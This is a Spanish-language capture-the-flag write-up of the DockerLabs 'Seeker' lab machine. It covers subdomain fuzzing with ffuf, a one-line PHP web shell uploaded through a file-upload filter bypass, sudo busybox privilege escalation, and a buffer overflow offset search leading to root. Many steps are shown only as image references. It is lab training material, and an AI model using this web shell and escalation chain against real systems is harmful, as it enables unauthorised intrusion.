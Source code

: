 nmap: 80

![[dockerlabs/medio/seeker/nmap.png]]

entramos a la pagina y no estaba encontrando nada y viendo el apache2 vi esto:

![[dockerlabs/medio/seeker/pagina1.png]]

encontré que podemos agregarlo como .dl, si entramos veremos la misma pagina, intente con gobuster otra vez pero no me dio nada asi que lanzamos un fuzzing 

      ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://5eek3r.dl -H "Host: FUZZ.5eek3r.dl" -fs 10705

![[ffuf.png]]

obtenemos un "crosswords", como es subdominio lo añadimos al host

![[host.png]]

y obtenemos

![[dockerlabs/medio/seeker/pagina2.png]]

si ingresamos solo lo codifica. vamos al código fuente  

![[dockerlabs/medio/seeker/fuente.png]]

capturo con burpsuite pero no encuentro nada, o sea las solicitudes me dan las mismas que la web en si, así que seguimos buscando

lo que podríamos intentar como ya encontramos un subdominio, buscar otro subdominio 

     ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://5eek3r.dl -H "Host: FUZZ.crosswords.5eek3r.dl" -fs 10705 
     
y dimos que tenemos un admin

![[dockerlabs/medio/seeker/admin.png]]

lo agregamos y vemos que hay una subida de archivos

![[dockerlabs/medio/seeker/subida.png]]

pero al intentar subir archivos me aparece que no permite .py, asi que probamos otros y dimos que funciona con phtml

      <?php
       system($_GET['cmd']);
       ?>


![[virus.png]]

ahora en la URL colocamos el archivo

no funciono así que probamos algo mas directo y con otra extensión

![[dockerlabs/medio/seeker/test.png]]

![[dockerlabs/medio/seeker/conexion.png]]

obtenemos conexión, pero antes de lanzar la conexión tenemos que lanzarla desde 
> crosswords.5eek3r.dl/shell.phar

dentro veremos como "escalar"

![[dockerlabs/medio/seeker/gt.png]]

buscamos en https://gtfobins.github.io/gtfobins/busybox/#sudo
nos da el comando de sudo 

     sudo busybox sh

lo modificamos 

     sudo -u astu busybox sh

![[dockerlabs/medio/seeker/usuario1.png]]

veremos esto con el usuario astu

![[bas64.png]]

probamos si se puede hacer un ataque de desbordamiento

![[flow.png]]

vemos que se puede, pero como no podemos ver el código por el formato lo pasamos a ghidra, nos pasamos por medio de un servidor el bs64 y veremos algo importante

    printf("Ejecutando /bin/sh");
    setuid(0);
    system("/bin/sh");
    return;

como se ve esta llamando a root por el setuid(0)
creamos como un "código" por decir así para el desbordamiento

     /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400


![[gdb.png]]

veremos que nos da un valor 0x00000000004013d8
y si colocamos ret nos dará el valor: 0x6341356341346341

obtenemos esto el valor 72 

![[gdb2.png]]

lo que es el offset que se buscaba poder un exploit. hacemos el exploit

![[dockerlabs/medio/seeker/exploit.png]]

con los valores que obtuvimos, lanzamos

![[dockerlabs/medio/seeker/root.png]]

y somos root!
